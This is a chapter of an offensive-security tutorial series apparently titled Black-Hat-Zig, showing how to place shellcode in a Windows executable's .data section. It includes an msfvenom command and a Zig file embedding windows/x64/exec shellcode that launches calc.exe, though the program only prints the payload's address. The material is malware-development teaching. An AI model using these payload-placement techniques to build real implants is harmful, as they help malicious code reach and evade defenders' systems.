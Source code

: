 # Put payload in .data section

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/Payload-Placement/dot_data_section)

## What Is Payload?

To execute the malicious code, we must load the malicious stuff into the binary somehow. And this malicious stuff, is the so called "payload" or "shellcode".

We'll use the payload generated by MSFvenom for every examples in "Payload Placement". You can copy and paste the following command to generate the payload first. But since it's generated in C array format, I'll recommend you just copy and paste the corresponding payload in my code, which is already translated from C array to Zig array by AI.

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```

## Sections

For those who visited this project, I'll assume you already know what is "section" and know the basics of the following common sections.

- .bss section
  - Uninitialized global variables
- .data section
  - Initialized global variables
- .rdata section
  - Read-only data (strings, vtable, etc)
- .text section
  - Code segment, stores machine codes
- .rsrc section
  - Resource section, only exists on Windows. It often stores graph, icon, etc

For more details: [Special Sections - MSDN](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#special-sections).

## Code Explanation

In this chapter, I will show you how to store out payload into .data section.

```zig title="main.zig"
const std = @import("std");
const print = std.debug.print;

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .data saved payload (var data goes to .data section in Zig)
var data_section_payload = [_]u8{
    0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
    0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
    0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
    0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
    0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
    0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
    0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
    0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
    0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
    0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
    0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
    0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
    0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
    0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
    0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
    0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
    0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
    0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
    0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
    0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00,
};

/// Helper function to wait for Enter key
/// Similar usage as `getchar()` in C
fn waitForEnter() void {
    var buffer: [256]u8 = undefined;
    _ = std.io.getStdIn().reader().readUntilDelimiterOrEof(buffer[0..], '\n') catch {};
}

pub fn main() !void {
    print("[i] Payload address: 0x{X} \n", .{@intFromPtr(&data_section_payload)});
    print("[i] Data size: {d} bytes\n", .{data_section_payload.len});
    print("[i] Payload stored in .data section (read-write)\n", .{});
    print("[#] Press <Enter> To Quit ...", .{});
    waitForEnter();
}
```

Actually, it's easy to put the payload in .data section, just declare a global var and that's it! Although it's simple, it's also easy for malware analyst and reverse engineer to notice that. And it hash high possibility to be detected for most of the AV/EDR.
